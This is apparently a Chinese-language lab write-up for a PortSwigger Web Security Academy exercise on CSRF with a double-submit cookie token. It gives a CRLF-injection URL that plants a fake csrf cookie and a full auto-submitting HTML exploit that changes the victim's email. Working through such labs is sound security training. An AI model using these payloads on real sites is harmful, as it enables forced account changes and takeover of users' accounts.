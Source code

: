  将请求发送到Burp Repeater，并观察到csrf body参数的值只是通过与csrf cookie进行比较来验证
（删除任意一个以后都会报400，少参数）



执行搜索，将结果请求发送到Burp Repeater，并观察搜索词是否反映在Set-Cookie报头中。由于搜索功能没有CSRF保护，可以使用它将cookie注入受害用户的浏览器


创建一个URL，利用此漏洞将伪造的csrf Cookie注入受害者的浏览器：
<pre><code>/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
</code></pre>
<hr/>
part2:
生成poc



<pre><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0abf00ef04149dfdc6fb133800e000cc.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="email" value="333333&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="hidden" name="csrf" value="fake" /&gt;
      &lt;input type="hidden" name="" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit();
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;

</code></pre>

按照无防御CSRF漏洞解决方案实验室中所述创建并托管概念利用验证，确保CSRF令牌设置为“假”。应通过电子邮件更改请求创建利用漏洞攻击。
删除&lt;script&gt;模块块，并改为以下代码来注入cookie并提交表单：
<pre><code>&lt;img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/&gt;

我的是：
&lt;img src="https://0abf00ef04149dfdc6fb133800e000cc.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/&gt;</code></pre>
更改后的为（注意2处csrf值改为一致，任意值）
<pre><code>&lt;html&gt;
  &lt;!-- CSRF PoC - generated by Burp Suite Professional --&gt;
  &lt;body&gt;
  &lt;script&gt;history.pushState('', '', '/')&lt;/script&gt;
    &lt;form action="https://0abf00ef04149dfdc6fb133800e000cc.web-security-academy.net/my-account/change-email" method="POST"&gt;
      &lt;input type="hidden" name="email" value="333333&amp;#64;qq&amp;#46;com" /&gt;
      &lt;input type="hidden" name="csrf" value="fake" /&gt;
      &lt;input type="hidden" name="" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
        &lt;img src="https://0abf00ef04149dfdc6fb133800e000cc.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/&gt;
  &lt;/body&gt;
&lt;/html&gt;
